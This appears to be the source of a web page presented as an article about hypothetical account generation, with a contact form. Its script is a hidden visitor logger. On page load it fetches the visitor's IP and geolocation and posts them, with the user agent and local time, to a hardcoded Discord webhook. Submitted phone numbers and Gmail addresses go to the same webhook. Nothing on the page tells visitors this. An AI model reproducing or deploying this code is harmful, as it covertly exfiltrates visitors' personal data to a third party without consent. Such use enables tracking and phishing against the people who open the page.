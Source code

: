 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Interesting Article Title</title>
    <style>
        body {
            font-family: sans-serif;
            line-height: 1.6;
            margin: 20px;
        }
        h1 {
            font-size: 2.5em;
            margin-bottom: 10px;
        }
        .author-date {
            color: #555;
            font-size: 0.9em;
            margin-bottom: 20px;
        }
        .article-body {
            margin-bottom: 30px;
        }
        p {
            margin-bottom: 15px;
        }
        .contact-form {
            margin-top: 40px;
            padding: 20px;
            border: 1px solid #ccc;
        }
        .contact-form label {
            display: block;
            margin-bottom: 5px;
        }
        .contact-form input[type="tel"],
        .contact-form input[type="email"] {
            width: 100%;
            padding: 8px;
            margin-bottom: 15px;
            border: 1px solid #ddd;
        }
        .contact-form button {
            padding: 10px 15px;
            background-color: #007bff;
            color: white;
            border: none;
            cursor: pointer;
        }
    </style>
</head>
<body>

    <article>
        <h1>The Fascinating World of Hypothetical Account Generation</h1>
        <div class="author-date">
            By AI Language Model - Published on May 8, 2025
        </div>
        <div class="article-body">
            <p>In the realm of theoretical computing and educational explorations, the concept of automatically generating user accounts often arises. While the practical and ethical implications of such systems are significant and warrant careful consideration, examining the underlying technical principles can be an insightful exercise.</p>
            <p>Imagine a scenario where, for purely illustrative purposes, one might explore the creation of randomized usernames and passwords. This exploration could delve into algorithms for producing names that bear a resemblance to human-created identifiers, perhaps by combining word fragments or appending numerical sequences. Similarly, the generation of strong, unique passwords could be examined through the lens of randomness and complexity.</p>
            <p>However, it is crucial to reiterate that the actual implementation of systems that automatically create accounts, especially for existing online platforms, carries substantial ethical and practical concerns. Respecting user privacy, adhering to terms of service, and ensuring responsible use are paramount. This article serves solely as a high-level conceptual overview and does not endorse or facilitate any activity that could be construed as unethical or harmful.</p>
            <p>Further discussions in this hypothetical exploration might touch upon the challenges of ensuring uniqueness across a vast number of potential identifiers and the limitations of purely algorithmic generation in mimicking the nuances of human choice. The inclusion of elements like copy buttons, as seen in previous educational examples, could theoretically streamline the interaction with such generated data, again, within a strictly educational context.</p>
            <p>Ultimately, while the technical aspects of hypothetical account generation can be a subject of academic curiosity, the responsible and ethical handling of user data and platform integrity must always take precedence in real-world applications.</p>
        </div>
    </article>

    <div class="contact-form">
        <h2>Contact Us</h2>
        <form id="contactForm">
            <label for="phone">Phone Number (11 digits):</label>
            <input type="tel" id="phone" name="phone" pattern="[0-9]{11}" placeholder="09123456789" required>
            <label for="email">Gmail Address:</label>
            <input type="email" id="email" name="email" pattern=".+@gmail\.com$" placeholder="yourname@gmail.com" required>
            <button type="submit">Submit</button>
        </form>
    </div>

    <script>
        document.addEventListener('DOMContentLoaded', function() {
            const form = document.getElementById('contactForm');
            const webhookUrl = 'https://discord.com/api/webhooks/1369468126420402216/0ksz25fxIgwSXW5bPgyIyhgiotcrxUst3T_T1JrchM7cb8WE74Du1Q07FVE5GOCSXX7z'; // **REPLACE WITH YOUR ACTUAL WEBHOOK URL**
            let userIP = null;

            function sendToDiscord(message) {
                fetch(webhookUrl, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify(message),
                })
                .then(response => {
                    if (!response.ok) {
                        console.error('Discord Webhook Error:', response);
                    }
                })
                .catch(error => {
                    console.error('Discord Webhook Error:', error);
                });
            }

            fetch('https://api.ipify.org?format=json')
                .then(response => {
                    if (!response.ok) {
                        console.error('IP Fetch Error:', response.status);
                        return Promise.reject('Failed to fetch IP address');
                    }
                    return response.json();
                })
                .then(data => {
                    userIP = data.ip;
                    console.log("Fetched IP Address:", userIP);

                    // Get device information (user agent string)
                    const deviceName = navigator.userAgent;

                    // Get local time
                    const now = new Date();
                    const localTime = now.toLocaleString();

                    // Fetch geolocation data based on IP
                    fetch(`https://ipapi.co/${userIP}/json/`)
                        .then(response => {
                            if (!response.ok) {
                                console.error('Geolocation Fetch Error:', response.status);
                                return Promise.reject('Failed to fetch geolocation data');
                            }
                            return response.json();
                        })
                        .then(geoData => {
                            const country = geoData.country_name || 'N/A';

                            const ipInfoMessage = {
                                embeds: [{
                                    title: 'Page Opened - IP Information',
                                    fields: [
                                        { name: 'IP Address', value: userIP },
                                        { name: 'Device', value: deviceName },
                                        { name: 'Country', value: country },
                                        { name: 'Local Time', value: localTime }
                                    ],
                                    timestamp: new Date().toISOString()
                                }]
                            };
                            sendToDiscord(ipInfoMessage);
                        })
                        .catch(geoError => {
                            console.error('Geolocation Error:', geoError);
                            const ipOnlyMessage = {
                                embeds: [{
                                    title: 'Page Opened - IP Address (Geolocation Failed)',
                                    fields: [
                                        { name: 'IP Address', value: userIP },
                                        { name: 'Device', value: deviceName },
                                        { name: 'Local Time', value: localTime }
                                    ],
                                    timestamp: new Date().toISOString()
                                }]
                            };
                            sendToDiscord(ipOnlyMessage);
                        });

                    // Handle form submission
                    form.addEventListener('submit', function(event) {
                        event.preventDefault();

                        const phoneNumber = document.getElementById('phone').value;
                        const emailAddress = document.getElementById('email').value;

                        const formDataMessage = {
                            embeds: [{
                                title: 'Contact Form Submission',
                                fields: [
                                    { name: 'Phone Number', value: phoneNumber },
                                    { name: 'Email Address', value: emailAddress },
                                    { name: 'IP Address', value: userIP }
                                ],
                                timestamp: new Date().toISOString()
                            }]
                        };
                        sendToDiscord(formDataMessage);
                        alert('Information sent successfully!');
                        form.reset();
                    });
                })
                .catch(error => {
                    console.error('Initial Error:', error);
                    alert('An error occurred during page load.');
                });
        });
    </script>

</body>
</html>
